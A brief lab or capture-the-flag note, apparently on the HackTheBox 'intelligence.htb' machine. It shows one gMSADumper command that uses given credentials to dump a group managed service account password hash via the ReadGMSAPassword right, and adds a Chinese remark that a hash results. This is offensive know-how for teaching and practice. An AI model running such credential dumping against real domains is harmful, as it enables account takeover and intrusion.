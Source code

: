 # ReadGMSAPassword

```clike
https://github.com/micahvandeusen/gMSADumper

python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb
将会得到一个hash
```

‍
